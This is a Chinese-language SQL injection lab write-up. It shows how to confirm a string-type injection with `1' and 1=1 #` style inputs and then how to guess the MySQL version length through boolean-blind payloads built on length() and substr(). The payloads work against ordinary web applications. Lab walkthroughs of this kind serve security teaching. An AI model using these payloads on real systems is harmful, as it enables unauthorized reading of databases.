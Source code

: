 ### 漏洞利用

#### 字符型注入

尝试输入 `1` ，查询成功。

![image-20220823162357803](./Lab7_SQL_Injection.assets/image-20220823162357803.png)

尝试输入 `1' and 1=1 #`，查询成功。

![image-20220823162457035](./Lab7_SQL_Injection.assets/image-20220823162457035.png)

尝试输入 `1' and 1=2 # `，查询失败

![image-20220823162539643](./Lab7_SQL_Injection.assets/image-20220823162539643.png)

可见其只有两种返回，并且因为需要用单引号闭合，存在字符型注入漏洞。



#### 猜测版本号

查询MySQL版本语句为

```mysql
select version();
```



首先测试版本号的长度 

​	`length()` 函数获取字符串长度

​	`substr( string, start, length)` 函数截取字符串

​	用 `substr()` 函数提取返回的版本号字符串，使用 `length()` 函数和我们的猜测值比较是否相等

```mysql
# 分别测试以下语句
1' and length(substr((select version()),1)) = 1 #
1' and length(substr((select version()),1)) = 2 #
1' and length(substr((select version()),1)) = 3 #
1' and length(substr((select version()),1)) = 4 #
1' and length(substr((select version()),1)) = 5 #
1' and length(substr((select version()),1)) = 6 #
```
